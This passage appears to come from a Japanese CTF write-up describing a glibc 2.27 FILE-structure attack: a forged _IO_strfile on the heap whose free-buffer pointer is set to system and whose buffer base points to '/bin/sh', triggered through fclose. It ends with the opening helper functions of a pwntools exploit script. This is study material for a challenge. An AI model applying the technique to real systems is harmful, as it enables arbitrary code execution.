 (<https://elixir.bootlin.com/glibc/glibc-2.27/source/libio/strops.c#L346>より)

最初のif文さえ突破すれば`(((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);`によって良い感じに関数が呼べそうである。
よって`fp->_s._free_buffer`がsystem関数, `fp->_IO_buf_base`が`"/bin/sh"`のあるアドレスを指すように偽装した構造体をHeap上に用意してこれをfcloseさせる。
コード中では他のメンバも適当に弄っているが、本来使われていた方の`_IO_FILE_plus`構造体をパクった部分が大きい(実際に偽装しているのは`_IO_strfile_`構造体であるが、vtableまではだいたい同じなのでパクった)
また、参考文献2によれば`_lock`メンバはnullを指すポインタを置けば特に問題は起こらないらしい

`_IO_strfile_`については参考文献5(glibcのソースコード)を参考にペイロードを構成した

ちなみにincludeコマンドでは最初にpriorityの入力を要求されるがここで`fp->_flags`を入力しておけば良い、fclose中のif文を回避出来れば良いので0xfbad1800を使った

### 祈る

1/16です

## Code

```python
from pwn import p64, u64, ELF, process
from xlog import XLog


def select(s, sel, c="> "):
    s.recvuntil(c)
    s.sendline(str(sel))


def include(s, priority, command):
    select(s, 1)
    s.recvuntil("Priority: ")
    s.sendline(str(priority))
    s.recvuntil("Command: ")
    s.send(command)


def review(s, idx):
    select(s, 2)
    s.recvuntil("Command index: ")
    s.sendline(str(idx))
    s.recvuntil("Priority: ")
    priority = int(s.recvline().rstrip())
    s.recvuntil("Command: ")
    command = s.recvline().rstrip()

    return priority, command


def delete(s, idx):
    select(s, 3)
    s.recvuntil("Command index: ")
    s.sendline(str(idx))


# def list(s):


def send(s):
    select(s, 5)
    s.recvuntil("which rbs?\n")
    s.sendline(str(114514))


```
